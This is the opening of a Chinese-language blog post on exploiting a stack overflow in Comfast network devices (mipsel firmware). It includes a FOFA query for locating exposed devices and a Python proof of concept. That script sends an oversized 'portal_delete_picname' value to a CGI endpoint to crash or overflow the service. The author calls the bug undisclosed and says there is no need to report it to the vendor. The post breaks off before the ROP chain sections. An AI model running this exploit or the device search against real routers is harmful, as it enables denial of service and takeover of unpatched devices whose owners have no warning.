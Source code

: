 ```yaml
---
title: Comfast 系列产品 /栈溢出ROP利用链构造 - Updated
published: true
---
```


Comfast 本身是个比较小众品牌，出的洞危害范围较小，其安全防御措施也较为轻松.  

关于本篇文章分析的利用链，没什么交漏洞库和提醒厂商的必要，没什么好说的. 不过看到网上关于他的漏洞，都没有写明合适构造链. 因此在此浅浅分析一下 ROP 利用链就行了. 该产品采用 mipsel 32 指令集

本文章不遵循 CC 协议，除开特别说明标注，该文章未经许可禁止转载

fofa语法:  
```
icon_hash="-1026040476"
```

| 目录跳转 |
|--------|
| [直接写 shellcode (失败)](#直接写shellcode) |
| [ROP 链构造调用 system (成功)](#rop链构造1) |
| [ROP 链构造直接调用 syscall (更新中)](#rop链构造2) |

# [](#header-3)直接写shellcode

一个尚未公开的栈溢出PoC(前提是登录，客户端 IP 被服务端记录在案):
```py
def Vul4_AC100(host: str) -> None:
	'''
	Stack OverFlow & DDoS
	Requirement: Authorized
    by leeya_bug
	'''
	import requests
    data0 = 'A' * 500
	data = '{"portal_delete_picname":"' + data0 + '"}'
	requests.post("http://" + host + "/cgi-bin/mbox-config?method=SET&section=wifilith_delete_pic_file", data = data)

Vul4_AC100(HOST的地址)
```

笔者在此已经下载到了该厂商的一个通用网关固件，将其模拟起来并成功复现了该漏洞. 由于该厂商大多数产品都是通用固件的模板复用，因此只要有洞那大概率其他固件也能复现   
下载链接如下所示，提取文件系统可以发现就是 nginx + web cgi

[https://dl.comfast.cn/firmware/CF-AC100-V2.6.0.8.zip](https://dl.comfast.cn/firmware/CF-AC100-V2.6.0.8.zip)

此时已知：  
栈上字符串变量的首地址为 0x2B2A6540  
